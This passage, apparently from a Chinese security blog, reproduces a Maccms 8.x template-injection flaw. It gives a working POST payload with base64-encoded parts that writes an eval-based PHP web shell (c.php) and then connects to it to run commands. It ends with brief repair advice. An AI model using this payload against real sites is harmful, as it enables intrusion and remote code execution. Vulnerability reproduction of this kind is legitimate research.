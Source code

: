 ### 4.3&emsp;漏洞复现（getshell） ###

1.访问Maccms网站，进入search页面。

2.利用Firefox浏览器发送POST数据包或直接用Python编写脚本进行发送POST数据包

3.构造一句话木马payload：`wd={if-A:print(fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A}`进行攻击，该payload是直接生成一个c.php一句话木马文件，连接密码为c。

![maccms]({{ site.baseurl }}/images/maccms/11.png)

4.菜刀或直接用Firefox连接一句话，执行命令。

![maccms]({{ site.baseurl }}/images/maccms/12.png)
## 5.&emsp;修复意见 ##

&emsp;&emsp;升级Maccms8.x到最新版本，或手动添加规则过滤非法字符。